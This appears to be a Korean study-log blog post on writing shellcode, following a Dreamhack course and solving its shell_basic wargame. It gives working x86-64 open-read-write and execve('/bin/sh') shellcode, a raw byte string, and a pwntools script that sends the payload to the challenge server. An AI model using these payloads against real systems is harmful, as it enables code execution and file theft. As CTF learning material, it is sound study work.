 ```yaml
---
title:  "TIL : Shellcode 🐚"
excerpt: "2022.07.18 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking

---
```


https://dreamhack.io/lecture/courses/50

**Shellcode**는 exploit을 위해 제작된 assembly code 조각을 말한다.

만약 rip를 자신이 작성한 shellcode로 옮길 수 있다면, 사실상 원하는 모든 명령을 CPU에 내릴 수 있게 된다.

## orw shellcode

### 의사 코드
    
```
char buf[0x30];

int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30);
write(1, buf, 0x30);
```
    
### syscall
    
| syscall | rax | arg0 (rdi) | arg1 (rsi) | arg2 (rdx) |
| --- | --- | --- | --- | --- |
| read | 0x00 | unsigned int fd | char *buf | size_t count |
| write | 0x01 | unsigned int fd | const char *buf | size_t count |
| open | 0x02 | const char *filename | int flags | umode_t mode |
    
### assemly

```c
;Name: orw.S
push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

“/tmp/flag”를 넣을 때 **little endian**을 고려해야 하고, **8글자씩 뒤집힌다는** 사실을 놓치지 말자.

`“alf/pmt/”` → `0x616c662f706d742f`

`“g”` → `0x67`

    
### skeleton code for compiling

```c
__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    "Input your shellcode here.\n"
    "Each line of your shellcode should be\n"
    "seperated by '\n'\n"
    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");
void run_sh();
int main() { run_sh(); }
```

assembly를 skeleton code에 넣은 뒤 실행하면, 셸코드가 실행되어 /tmp/flag에 저장된 문자열이 출력된다.
    
## execve shellcode

execve shellcode는 shell program을 실행하는 shellcode이다.
    
### 의사 코드

```c
execve("/bin/sh", null, null);
```

### syscall

| syscall | rax | arg0 (rdi) | arg1 (rsi) | arg2 (rdx) |
| --- | --- | --- | --- | --- |
| execve | 0x3b | const char *filename | const char *const *argv | const char *const *envp |

### assembly

```c
`;Name: execve.S
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

위의 스켈레톤 코드에 assembly를 넣고 실행하면, `/bin/sh`가 실행된다.
    
## objdump를 이용한 shellcode 추출

```c
$ sudo apt-get install nasm 
$ nasm -f elf shellcode.asm //assemble shellcode.asm
$ objdump -d shellcode.o //disassemble shellcode.o
shellcode.o:     file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	31 c9                	xor    %ecx,%ecx
  11:	31 d2                	xor    %edx,%edx
  13:	b0 0b                	mov    $0xb,%al
  15:	cd 80                	int    $0x80
$
```

```c
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
00000010: c931 d2b0 0bcd 80                        .1.....
$ 
execve /bin/sh shellcode: 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```
    
## Wargame: [shell_basic](https://dreamhack.io/wargame/challenges/410/)
    
주어진 프로그램은 입력한 shellcode를 실행한다.
    
`/home/shell_basic/flag_name_is_loooooong`에 있는 flag를 구하면 된다.
    
### Solution 1 - 직접 assembly 작성하기

1. **orw shellcode**를 작성한다.
            
	이때 `/home/shell_basic/flag_name_is_loooooong`을 8자씩 끊어서 stack에 넣어줘야함에 주의한다.
            
	`gnoooooo` → `0x676e6f6f6f6f6f6f`
            
	…
            
	`hs/emoh/` → `0x68732f656d6f682f`

	```c
    section .text
    global _start
    _start:
    push 0
    mov rax, 0x676e6f6f6f6f6f6f
    push rax
    mov rax, 0x6c5f73695f656d61
    push rax
    mov rax, 0x6e5f67616c662f63
    push rax
    mov rax, 0x697361625f6c6c65
    push rax
    mov rax, 0x68732f656d6f682f
    push rax
    mov rdi, rsp
    mov rax, 0x02
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov rdi, rax
    mov rax, 0
    mov rsi, rsp
    sub rsi, 0x30
    mov rdx, 0x30
    syscall

    mov rdi, 1
    mov rax, 1
    syscall
    ```

2. shellcode를 binary 형태로 변환한다.

    ```c
    $ nasm -f elf64 test.asm
    $ objcopy --dump-section .text=test.bin test.o
    ```

3. 변환한 binary를 문제에서 주어진 주소로 전송한다.

    ```c
    $ cat test.bin | nc host3.dreamhack.games 12345
    ```

### Solution 2 - pwntool 활용하기

```python
from pwn import *
r = remote('host3.dreamhack.games', 12345)
context.arch = 'amd64'

sh = shellcraft.amd64.open('/home/shell_basic/flag_name_is_loooooong')
sh += "sub rsp, 100\n"
sh += shellcraft.amd64.read('rax', 'rsp', 100)
sh += shellcraft.amd64.write(1, 'rsp', 100)
# print("sh:", sh)
mc = asm(sh)
r.send(mc)
r.interactive()
```
